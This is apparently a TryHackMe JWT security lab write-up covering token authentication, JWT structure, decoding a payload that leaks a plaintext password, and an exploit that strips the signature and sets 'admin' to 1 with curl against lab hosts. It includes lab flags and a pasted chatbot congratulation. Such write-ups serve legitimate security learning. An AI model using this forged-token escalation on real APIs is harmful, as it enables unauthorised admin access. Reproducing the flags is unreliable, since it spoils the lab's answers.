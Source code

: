 ### **Task 1 - Introduction**  
_No Answer needed_

### **Task 2 - Token-Based Authentication**  
**Objective:** Understand how JWTs are used for authentication in APIs.  

#### **Challenge Goal**  
Obtain an **admin-level JWT** to retrieve the task flag.  

#### **Key Takeaways**  
- APIs use **token-based authentication** instead of traditional cookies for session management.  
- JWTs are sent in requests using the `Authorization: Bearer <token>` header.  
- The API accepts **POST** requests for authentication and **GET** requests for user verification.  
- **Why tokens over cookies?** Cookies are web-browser specific, whereas tokens allow a more flexible authentication method across mobile apps, web apps, and other interfaces.  

#### **Answer for Task 2**  
✅ **The common header used to transport JWTs in a request is:**  
**Authorization: Bearer**

#### **Host File Update for Easier Access**  
We added the target IP `10.10.104.9` to the **hosts file** for easier reference:
```
10.10.104.9    jwt-security.thm
```
Now, API requests can be made using `jwt-security.thm` instead of the raw IP.

#### **Commands Used**  
```bash
# Authenticate to the API and receive JWT
curl -H 'Content-Type: application/json' -X POST -d '{ "username": "user", "password": "password2" }' http://jwt-security.thm/api/v1.0/example2

# Use JWT to verify user details
curl -H 'Authorization: Bearer [JWT token]' http://jwt-security.thm/api/v1.0/example2?username=Y
```

#### **Observations**  
- The API grants access based on the JWT provided.  
- To escalate privileges, we need a **JWT where `admin: 1`**.  
- Using the `Authorization: Bearer` header correctly is crucial for authentication.

#### **Next Steps**  
- Investigate possible JWT attacks (signature bypass, weak secret cracking).  
- Try modifying the token to escalate privileges.  
- Extract the flag and document the exploitation process.  

---

### **Task 3 - JWT Structure**  
**Objective:** Understand the structure and different signing algorithms used in JSON Web Tokens (JWTs).  

#### **JWT Overview**  
JWTs are **self-contained tokens** used to securely transmit session information. They follow an **open standard**, making them accessible for developers to implement across various applications.

#### **JWT Structure**  
A JWT consists of **three Base64Url-encoded components**, separated by dots (`.`):  
1. **Header** – Specifies the token type (`JWT`) and the signing algorithm (e.g., `HS256`, `RS256`).  
2. **Payload** – Contains **claims**, which store user details and attributes (e.g., `{ "username": "user", "admin": 0 }`).  
3. **Signature** – Validates the authenticity of the token and ensures it hasn't been tampered with.

#### **Signing Algorithms**  
Three main algorithms used in JWT security:
- **None** – No signature validation, making the token insecure.  
- **Symmetric Signing** (e.g., **HS256**) – Uses a **shared secret key** for both signing and verification.  
- **Asymmetric Signing** (e.g., **RS256**) – Uses a **private key** for signing and a **public key** for verification.

#### **Security in JWT Signatures**  
JWTs can be **encrypted** (known as **JWEs**) for extra security, but their core strength comes from **signatures**. A properly signed JWT allows multiple applications to verify it **without needing direct access** to the issuing server.

#### **Answers for Task 3**  
✅ **HS256 is an example of what type of signing algorithm?** **Symmetric**  
✅ **RS256 is an example of what type of signing algorithm?** **Asymmetric**  
✅ **What is the name used for encrypted JWTs?** **JWE**

---

### **Task 4 - Sensitive Information Disclosure**  
**Objective:** Identify potential JWT security flaws that expose sensitive data.  

#### **Key Takeaways**  
- JWTs should **never** store sensitive information, like passwords, in plaintext.  
- Storing tokens in **LocalStorage** or exposing them in URLs increases the risk of theft.  
- Using weak signing secrets allows attackers to forge valid JWTs.

#### **Commands Used**  
```bash
# Authenticate and receive JWT
curl -H 'Content-Type: application/json' -X POST -d '{ "username": "user", "password": "password1" }' http://jwt-security.thm/api/v1.0/example2

# Decode JWT payload to extract sensitive data
echo "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJwYXNzd29yZCI6InBhc3N3b3JkMSIsImFkbWluIjowLCJmbGFnIjoiVEhNezljYzAzOWNjLWQ4NWYtNDVkMS1hYzNiLTgxOGM4MzgzYTU2MH0ifQ.TkIH_A1zu1mu-zu6_9w_R4FUlYadkyjmXWyD5sqWd5U" | cut -d '.' -f2 | base64 -d
```

#### **Extracted Data**  
```json
{
  "username": "user",
  "password": "password1",
  "admin": 0,
  "flag": "THM{9cc039cc-d85f-45d1-ac3b-818c8383a560}"
}
```

#### **Observations**  
- The JWT **contains the password in plaintext**, which is a huge security flaw.  
- The **flag** is stored directly in the payload, meaning anyone with the token can access it.  
- Since `admin: 0`, privilege escalation is required for admin access.

#### **Next Steps**  
- Investigate ways to **modify or forge JWTs** to escalate privileges.  
- Check if weak JWT secrets allow forging new tokens.  
- Securely document findings and commit to GitHub.

Boom! 🎉 **Success, John!** You **exploited the JWT vulnerability** and gained admin access—nicely done. 🚀  

### **🔑 Flag Retrieved:**  
✅ **THM{6e32dca9-0d10-4156-a2d9-5e5c7000648a}**  

---

### **📌 Key Takeaways from This Exploit:**  
🔹 **Signature validation was not enforced**, allowing you to modify the JWT freely.  
🔹 **Admin escalation worked**, proving the API trusts tokens without verifying integrity.  
🔹 **This is a serious security risk**—an attacker could forge identities without needing the secret key.  
```markdown
## Task 5 - JWT Manipulation Exploit

### 🔍 Issue Found:
- API **does not verify the JWT signature**, allowing token tampering.
- A user can **modify claims (e.g., "admin": 0 → "admin": 1)** to escalate privileges.

### 🚀 Exploit Steps:
1️⃣ **Authenticated & retrieved JWT** using:
```bash
curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password2" }' http://jwt.thm/api/v1.0/example2
```
2️⃣ **Removed the JWT signature** and verified user:
```bash
curl -H 'Authorization: Bearer [JWT_HEADER].[JWT_PAYLOAD].' http://jwt.thm/api/v1.0/example2?username=user
```
✅ **API accepted unsigned JWT**, proving weak validation.
3️⃣ **Modified JWT payload to escalate privileges**:
```json
{
  "username": "user",
  "admin": 1
}
```
4️⃣ **Sent the modified JWT in an API request** to retrieve the flag:
```bash
curl -H 'Authorization: Bearer MODIFIED.JWT.TOKEN' http://jwt.thm/api/v1.0/example2?username=admin
```
✅ **Flag Retrieved**: `THM{6e32dca9-0d10-4156-a2d9-5e5c7000648a}` 🎉

### 🔥 Security Risks:
🚨 **JWT integrity is broken** → Tokens can be freely altered.  
🚨 **Privilege escalation is possible** → No need to crack the secret key.  
🚨 **Attackers can forge any identity** → Anyone can pose as an admin.

### 🛠️ Suggested Fix:
✅ Always enforce **signature validation** before accepting JWTs.  
✅ Implement **proper admin access controls**, rather than trusting JWT alone.  
✅ Use **asymmetric JWT signing** (e.g., RS256) for stronger security.



